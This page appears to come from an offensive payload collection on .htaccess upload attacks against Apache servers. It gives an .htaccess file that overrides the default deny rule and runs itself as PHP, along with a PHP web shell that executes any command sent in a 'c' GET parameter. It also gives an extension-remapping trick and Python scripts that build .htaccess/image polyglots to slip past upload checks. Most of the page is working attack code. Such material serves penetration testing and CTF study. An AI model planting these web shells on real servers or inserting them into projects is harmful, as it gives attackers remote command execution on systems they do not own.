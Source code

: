 # .htaccess upload

Uploading an .htaccess file to override Apache rule and execute PHP.
"Hackers can also use “.htaccess” file tricks to upload a malicious file with any extension and execute it. For a simple example, imagine uploading to the vulnerabler server an .htaccess file that has AddType application/x-httpd-php .htaccess configuration and also contains PHP shellcode. Because of the malicious .htaccess file, the web server considers the .htaccess file as an executable php file and executes its malicious PHP shellcode. One thing to note: .htaccess configurations are applicable only for the same directory and sub-directories where the .htaccess file is uploaded."

Self contained .htaccess web shell

```python
# Self contained .htaccess web shell - Part of the htshell project
# Written by Wireghoul - http://www.justanotherhacker.com

# Override default deny rule to make .htaccess file accessible over web
<Files ~ "^\.ht">
Order allow,deny
Allow from all
</Files>

# Make .htaccess file be interpreted as php file. This occur after apache has interpreted
# the apache directoves from the .htaccess file
AddType application/x-httpd-php .htaccess
```

```php
###### SHELL ######
<?php echo "\n";passthru($_GET['c']." 2>&1"); ?>
```

# .htaccess simple php

Upload an .htaccess with : `AddType application/x-httpd-php .rce`   
Then upload any file with `.rce` extension.

# .htaccess upload as image

If the `exif_imagetype` function is used on the server side to determine the image type, create a `.htaccess/image` polyglot. 

[Supported image types](http://php.net/manual/en/function.exif-imagetype.php#refsect1-function.exif-imagetype-constants) include [X BitMap (XBM)](https://en.wikipedia.org/wiki/X_BitMap) and [WBMP](https://en.wikipedia.org/wiki/Wireless_Application_Protocol_Bitmap_Format). In `.htaccess` ignoring lines starting with `\x00` and `#`, you can use these scripts for generate a valid `.htaccess/image` polyglot.

```python
# create valid .htaccess/xbm image

width = 50
height = 50
payload = '# .htaccess file'

with open('.htaccess', 'w') as htaccess:
    htaccess.write('#define test_width %d\n' % (width, ))
    htaccess.write('#define test_height %d\n' % (height, ))
    htaccess.write(payload)
```
or
```python
# create valid .htaccess/wbmp image

type_header = b'\x00'
fixed_header = b'\x00'
width = b'50'
height = b'50'
payload = b'# .htaccess file'

with open('.htaccess', 'wb') as htaccess:
    htaccess.write(type_header + fixed_header + width + height)
    htaccess.write(b'\n')
    htaccess.write(payload)
```

## Thanks to

* [ATTACKING WEBSERVERS VIA .HTACCESS - By Eldar Marcussen](http://www.justanotherhacker.com/2011/05/htaccess-based-attacks.html)
* [Protection from Unrestricted File Upload Vulnerability](https://blog.qualys.com/securitylabs/2015/10/22/unrestricted-file-upload-vulnerability)
* [Writeup to l33t-hoster task, Insomnihack Teaser 2019](http://corb3nik.github.io/blog/insomnihack-teaser-2019/l33t-hoster)
